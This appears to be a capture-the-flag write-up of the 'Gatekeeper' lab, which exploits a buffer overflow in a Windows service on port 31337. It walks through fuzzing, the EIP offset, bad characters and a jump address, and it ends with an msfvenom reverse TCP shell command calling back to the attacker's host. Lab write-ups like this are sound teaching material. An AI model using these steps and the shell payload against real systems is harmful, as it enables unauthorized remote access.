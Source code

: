 ## Sumary
* SO: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
* Relevant ports: 135,139,445,3389,31337
* 3389: vulnerable to RCE (MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability)
* Path shared with read access: \\10.10.131.92\Users
* 31337: Service that support an input (Vulnerable to BOF?)
![225b9767c015c5dc2281f6b27837c73f.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/225b9767c015c5dc2281f6b27837c73f.png)

# Explotation
Let's see the smb share /Users
![3513999b163e6713dc95990cfbb31dd8.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/3513999b163e6713dc95990cfbb31dd8.png)

What does that binary do? After testing it in a WIN test machine, it seems the same program that the one is running on the target machine in the port 31337. So next step is test it for BOF with Immunity Debugger, mona and manual tools with python:

```
$ python3 bin/fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing crashed at 200 bytes
```

![2b67c5d2fef74c299d7895f64a8af9f8.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/2b67c5d2fef74c299d7895f64a8af9f8.png)

Now, we need to stabilize that BOF. After create a payload of 200 bytes and execute out manual exploit:

EIP Offset: `EIP contains normal pattern : 0x39654138 (offset 146)`

We are able to write in memory. What characters we are not abe to use?

![19b1daa54f8332fab4a4f4a7becfe1a4.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/19b1daa54f8332fab4a4f4a7becfe1a4.png)

\x00\x0a

And were are the jump funcions to execute code?
![ec623ef17e986058ca4c20d52c2a4126.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/ec623ef17e986058ca4c20d52c2a4126.png)

\xc3\x14\x04\x08

## Spawn a shell
Let's generate a reverse shell payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$l_ip LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c > payload/shell
```

Adding to the BOF exploit, we have a shell in our lab:
![7311b02635c4b055dcbc25a70f8a83e5.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gatekeeper/_resources/7311b02635c4b055dcbc25a70f8a83e5.png)

